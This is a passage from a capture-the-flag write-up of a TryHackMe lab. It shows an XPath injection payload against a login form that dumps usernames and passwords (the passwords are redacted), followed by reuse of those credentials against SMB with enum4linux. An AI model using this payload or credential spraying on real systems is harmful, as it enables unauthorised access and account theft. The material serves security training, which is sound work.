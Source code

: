 ```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|16:59:29(HKT)]
└> python3 login.py
[INFO] Payload: hi
[INFO] Username or Password Wrong
```

Nope.

Hmm... How about XPath (XML Path Language) injection?

XPath injection vulnerabilities arise when user-controllable data is incorporated into XPath queries in an unsafe manner. An attacker can supply crafted input to break out of the data context in which their input appears and interfere with the structure of the surrounding query.

Depending on the purpose for which the vulnerable query is being used, an attacker may be able to exploit an XPath injection flaw to read sensitive application data or interfere with application logic.

**If the application doesn't filter any XPath metacharacters such as `"'/@=*[](and)`, it's very likely to be vulnerable to XPath injection.**

According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection#exploitation), we can use these payloads:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120173216.png)

**After some testing, I found this payload worked:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:33:08(HKT)]
└> python3 login.py
[INFO] Payload: " or 1=1 or "x"="y
[INFO] Username Password<br>Tove             {Redacted}<br>Godzilla             {Redacted}<br>SuperMan             {Redacted}<br>ArthurMorgan             {Redacted}<br>
```

Found usernames and passwords!

Let's login to their account!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120173459.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120173508.png)

Hmm... Nothing.

Let's take a step back.

We still have 1 more service need to dig deeper: SMB.

**Since we have pairs of credentials, we can do password spraying:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:53:37(HKT)]
└> enum4linux -u "ArthurMorgan" -p "{Redacted}" $RHOSTS
[...]
[+] Server 10.10.207.207 allows sessions using username 'ArthurMorgan', password '{Redacted}'
[...]
```
